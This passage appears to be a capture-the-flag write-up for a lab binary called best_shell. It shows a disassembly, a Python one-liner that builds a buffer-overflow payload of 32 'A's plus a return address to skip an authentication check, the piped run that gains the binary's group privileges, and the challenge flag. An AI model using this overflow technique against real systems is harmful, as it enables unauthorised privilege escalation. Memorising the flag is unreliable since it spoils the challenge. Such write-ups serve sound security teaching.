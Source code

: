 ```
   0x080489f8 <+50>:    movl   $0x8048ea3,(%esp)
   0x080489ff <+57>:    call   0x8048630 <system@plt>
   0x08048a04 <+62>:    jmp    0x8048a12 <shell_handler+76>
   0x08048a06 <+64>:    movl   $0x8048eab,(%esp)
   0x08048a0d <+71>:    call   0x8048620 <puts@plt>
   0x08048a12 <+76>:    leave
   0x08048a13 <+77>:    ret
End of assembler dump.
```

However we don't want to jump into it directly since it first checks to see if we've authenticated successfully, and we haven't. So we'll set the address at 0x080489d7, which is the call to getegid(). The exploit then is to rename a command with 32 "A"s, followed by the address 0x080489d7, and then call that renamed function. 

```
pico1139@shell:~$ python -c 'import struct; print "rename lol " + "A"*32 + struct.pack("<I", 0x80489d7) + "\n" + "A"*32 + struct.pack("<I", 0x80489d7)' > in.txt
```

We just need to pipe in.txt into best_shell to get our shell: 

```
pico1139@shell:~$ cd /home/best_shell/
pico1139@shell:/home/best_shell$ id
uid=11066(pico1139) gid=1017(picogroup) groups=1017(picogroup)
pico1139@shell:/home/best_shell$ (cat /home_users/pico1139/in.txt ; cat) | ./best_shell
>> >> id
uid=11066(pico1139) gid=1010(best_shell) groups=1017(picogroup)
cat flag.txt
give_shell_was_useful
```

The flag is **give_shell_was_useful**
